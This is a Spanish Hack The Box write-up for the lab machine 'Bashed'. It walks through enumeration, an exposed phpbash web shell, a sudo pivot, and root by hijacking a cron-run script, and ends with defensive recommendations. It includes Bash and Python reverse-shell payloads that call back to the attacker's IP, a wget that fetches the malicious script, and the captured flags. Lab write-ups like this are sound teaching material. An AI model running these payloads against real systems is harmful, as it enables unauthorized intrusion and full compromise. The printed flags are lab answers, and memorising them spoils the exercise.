# Bashed — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** Arrexel  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Gobuster · phpbash · Reverse Shell · Sudo Abuse · Cron Job Hijacking · Privilege Escalation

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — phpbash](#3-acceso-inicial--phpbash)
4. [Obtención de shell y flag de usuario](#4-obtención-de-shell-y-flag-de-usuario)
5. [Escalada de privilegios — scriptmanager](#5-escalada-de-privilegios--scriptmanager)
6. [Escalada a root — Cron Job Hijacking](#6-escalada-a-root--cron-job-hijacking)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.24.217
```

Salida obtenida:

```text
64 bytes from 10.129.24.217: icmp_seq=1 ttl=63 time=33.1 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP. Solo necesitamos verificar conectividad. El valor `TTL=63` suele indicar que estamos frente a una máquina Linux.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap, guardando el resultado para procesarlo posteriormente.

```bash
nmap -sS -Pn -p- -sCV -T5 -oN Puertos 10.129.24.217
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-p-` | Escanea los 65535 puertos TCP |
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

> 💡 Apache `2.4.18` sobre Ubuntu corresponde a una distribución Ubuntu 16.04 LTS, lo que orienta el contexto del kernel y posibles vectores de explotación local.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.24.217
```

La aplicación se presenta como *Arrexel's Development Site*. Tras revisar los posts, encontramos uno especialmente interesante titulado **phpbash**, donde el propio autor menciona el desarrollo de una shell PHP embebida.



> 💡 La mención explícita de `phpbash` en el sitio sugiere que el binario podría estar desplegado en algún directorio del propio servidor. Esto convierte la enumeración de rutas en el siguiente paso obligatorio.

---

### Directory Bruteforcing con Gobuster

Lanzamos un escaneo de directorios y ficheros con `gobuster`, indicando extensiones comunes para detectar tanto rutas como archivos potencialmente sensibles.

```bash
gobuster dir -u http://10.129.24.217 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt \
  -x php,html,txt,js,py
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `dir` | Modo de fuerza bruta sobre directorios |
| `-u` | URL objetivo |
| `-w` | Diccionario utilizado |
| `-x` | Lista de extensiones a probar |

Entre los hallazgos destacan rutas como `/uploads`, `/css`, `/images` y, sobre todo, `/dev`, que aparece accesible.

---

### Exploración del directorio `/dev`

Navegamos al directorio descubierto y encontramos un listado abierto (Directory Listing) que expone los binarios PHP comentados en el blog.

```text
http://10.129.24.217/dev/
```



El directorio contiene:

```text
phpbash.min.php
phpbash.php
```

> 💡 `phpbash` es una shell web semi-interactiva escrita en PHP que ejecuta comandos arbitrarios en el servidor. Su exposición sin autenticación equivale a un **RCE listo para usar**.

---

## 3. Acceso inicial — phpbash

Accediendo directamente a `phpbash.php`, obtenemos una interfaz tipo terminal que permite ejecutar comandos en el contexto del usuario web (`www-data`).

```text
http://10.129.24.217/dev/phpbash.php
```

Esto representa una **ejecución remota de comandos no autenticada** sobre el host objetivo.

---

### Generación de la reverse shell

Como `phpbash` no proporciona una TTY funcional, lanzamos una reverse shell hacia nuestro Kali. Para evitar problemas de escapado, utilizamos un payload Bash URL-encoded (compatible con la URL bar y con la ejecución mediante `bash -c`).

Generamos el payload mediante [revshells.com](https://www.revshells.com), seleccionando una shell Bash interactiva.



El comando final, ya URL-encoded, es el siguiente:

```bash
bash -c "%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.63%2F1234%200%3E%261"
```

Decodificado:

```bash
bash -i >& /dev/tcp/10.10.14.63/1234 0>&1
```

### Explicación del payload

| Componente | Función |
|---|---|
| `bash -i` | Inicia una shell interactiva |
| `>&` | Redirige stdout y stderr |
| `/dev/tcp/IP/PORT` | Socket TCP virtual de Bash hacia el atacante |
| `0>&1` | Redirige stdin para mantener la sesión bidireccional |

---

## 4. Obtención de shell y flag de usuario

Antes de disparar el payload, iniciamos un listener con Netcat.

```bash
nc -lvnp 1234
```

### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Verbose |
| `-n` | No resuelve DNS |
| `-p 1234` | Puerto de escucha |

A continuación ejecutamos el payload dentro de `phpbash`.



Inmediatamente recibimos la conexión:



```text
listening on [any] 1234 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.24.217] 53448
www-data@bashed:/var/www/html/dev$
```

> 💡 El mensaje *"cannot set terminal process group"* indica que no disponemos de una TTY real. Para una sesión más estable podríamos hacer *upgrade* con `python3 -c 'import pty; pty.spawn("/bin/bash")'`, pero para esta máquina la shell semi-interactiva basta.

---

### Localización de la flag de usuario

Enumeramos `/home` en busca del usuario propietario de la flag.

```bash
cd /home
ls
```

Encontramos los usuarios `arrexel` y `scriptmanager`. La flag se encuentra en el primero.

```bash
cd arrexel
cat user.txt
```



```text
ecf85e9f483d9a433190a1d57a18d141
```

✅ Flag de usuario obtenida.

---

## 5. Escalada de privilegios — scriptmanager

Revisamos qué comandos puede ejecutar `www-data` mediante `sudo`.

```bash
sudo -l
```



Resultado:

```text
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

> 💡 La directiva `NOPASSWD` combinada con `(scriptmanager : scriptmanager)` permite a `www-data` ejecutar **cualquier comando como scriptmanager sin contraseña**. Es un pivot lateral directo.

Saltamos al usuario `scriptmanager`:

```bash
sudo -u scriptmanager bash
id
```

```text
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

✅ Pivot lateral conseguido.

---

## 6. Escalada a root — Cron Job Hijacking

### Enumeración de ficheros del nuevo usuario

Buscamos en todo el sistema los archivos pertenecientes a `scriptmanager` para detectar superficies de ataque controladas por él.

```bash
find / -user scriptmanager 2>/dev/null
```



Resultado destacado:

```text
/scripts
/scripts/test.py
```

> 💡 El directorio `/scripts` situado fuera de `/home` y propiedad de `scriptmanager` es **muy sospechoso**: suele indicar la existencia de tareas programadas (cron) ejecutándose con privilegios elevados.

---

### Análisis del directorio `/scripts`

```bash
cd /scripts
ls -la
cat test.py
cat test.txt
```



Observamos lo siguiente:

```text
-rw-xr-x  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root           12 Apr 12 14:50 test.txt
```

El script `test.py`:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

El detalle crítico: `test.py` pertenece a `scriptmanager`, pero **`test.txt` se regenera con propietario `root`**. Esto solo puede ocurrir si una tarea automatizada (cron) ejecuta `test.py` como `root` de forma periódica.

> 💡 Si controlamos un script que se ejecuta como root, controlamos el sistema. Reemplazamos el contenido de `test.py` por un payload que nos devuelva una reverse shell.

---

### Creación del payload malicioso

En nuestra máquina atacante creamos un nuevo `test.py` con una reverse shell.

```python
import os
os.system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.63/1235 0>&1'")
```



### Explicación del payload

| Componente | Función |
|---|---|
| `import os` | Carga el módulo de ejecución de comandos del sistema |
| `os.system(...)` | Ejecuta un comando shell desde Python |
| `bash -c '...'` | Lanza una nueva shell con la cadena indicada |
| `/dev/tcp/IP/PORT` | Socket TCP virtual de Bash hacia el atacante |

---

### Listener para la nueva conexión

Lanzamos un segundo listener en un puerto distinto al anterior para distinguir conexiones.

```bash
nc -lvnp 1235
```



---

### Transferencia del payload a la víctima

Arrancamos un servidor HTTP en Python sobre nuestro Kali para servir el archivo.

```bash
python3 -m http.server 1236
```



Desde la sesión de `scriptmanager` en la máquina víctima, descargamos el script malicioso sobre el original.

```bash
cd /scripts
wget http://10.10.14.63:1236/test.py
```



> 💡 Como `scriptmanager` es propietario del directorio `/scripts`, podemos sobrescribir `test.py` sin restricciones. La siguiente ejecución del cron desencadenará nuestro payload con privilegios de **root**.

---

### Obtención de shell como root

Tras un breve instante (el cron se ejecuta aproximadamente cada minuto), recibimos la conexión en nuestro listener.



```text
listening on [any] 1235 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.24.223] 46754
root@bashed:/scripts#
```

✅ Compromiso total de la máquina.

---

## 7. Post-explotación y flags

Con privilegios máximos, localizamos la flag de root en su ubicación habitual.

```bash
cd /root
ls
cat root.txt
```



```text
3053e33a6913aaa79a8709e17387ea2d
```

✅ Máquina completada.

---

## 8. Lección aprendida

Esta máquina ilustra una cadena de fallos clásica en entornos Linux mal configurados: exposición pública de herramientas de desarrollo, sudoers permisivos y tareas programadas escribibles.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Directorio sensible expuesto | `/dev/` con Directory Listing | Filtración de herramientas internas |
| Shell PHP pública | `phpbash.php` | RCE no autenticada |
| Sudoers permisivo | `www-data → scriptmanager (NOPASSWD)` | Pivot lateral inmediato |
| Script ejecutado como root | `/scripts/test.py` via cron | Escalada vertical a root |
| Directorio escribible por usuario no privilegiado | `/scripts` propiedad de `scriptmanager` | Hijack de tareas programadas |

---

## Recomendaciones defensivas

- Nunca dejar herramientas de desarrollo (`phpbash`, `phpinfo`, paneles internos) accesibles en producción.
- Deshabilitar el *Directory Listing* en Apache (`Options -Indexes`).
- Aplicar el principio de **mínimo privilegio** en `/etc/sudoers`, evitando entradas con `NOPASSWD: ALL`.
- Auditar tareas cron y verificar que ningún script ejecutado como root sea escribible por usuarios no privilegiados.
- Monitorizar cambios en directorios sensibles (`auditd`, `inotify`) y alertar sobre modificaciones inesperadas.
- Segmentar servicios web mediante chroot o contenedores con usuarios no privilegiados.
- Revisar periódicamente la salida de `find / -perm -2 -type f` y `find / -writable -type f` desde la perspectiva de cada usuario del sistema.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
